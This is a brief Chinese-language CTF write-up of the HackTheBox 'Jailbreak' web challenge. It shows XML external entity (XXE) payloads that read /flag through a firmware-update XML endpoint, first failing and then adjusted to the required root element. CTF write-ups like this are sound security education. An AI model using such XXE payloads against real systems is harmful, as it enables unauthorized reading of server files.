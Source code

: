 ```yaml
---
title: "HTB-CTF Try Out分析与题解"
description: "HTB-CTF是HackTheBox发起的一个CTF比赛，题目覆盖了多个领域，包括WEB、MOBILE、CRYPTO、REVERSE等。"
date: "2025-08-30"
tags:
  - "HTB"
  - "CTF"
  - "WEB"
  - "XXE"
authors:
  - "bx"
draft: false              # 设为 true 则为草稿
slug: "htb-ctf"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">

# HTB-CTF Try Out分析与题解

> 比赛地址：
>
> https://ctf.hackthebox.com/event/1434

## WEB

### Jailbreak 越狱

> The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt
> 队伍从黑市商人那里获得了一台实验性的皮普男孩，意识到它有可能解锁 Vault 79 这个严密防守的地下掩体。回到他们的藏身之处，黑客和工程师们合作越狱这个设备，小心翼翼地绕过其复杂的生物识别锁。使用自定义固件和一系列精确的修改，你能将设备恢复到完全运行状态，以便与保险库门的访问端口配对吗。标志位于/flag.txt

进入题目发现想一个游戏

来回看看发现一个xml更新的页面，可以更改数据

![](https://raw.githubusercontent.com/bx33661/Picgo/main/20250830230228844.png)

尝试一下XXE

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag"> ]> <root> <name>&xxe;</name> </root>
```

但是要求必须是`An error occurred: The root element must be 'FirmwareUpdateConfig'.`

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>1.0</Version>
    <name>&xxe;</name>
  </Firmware>
</FirmwareUpdateConfig>

```
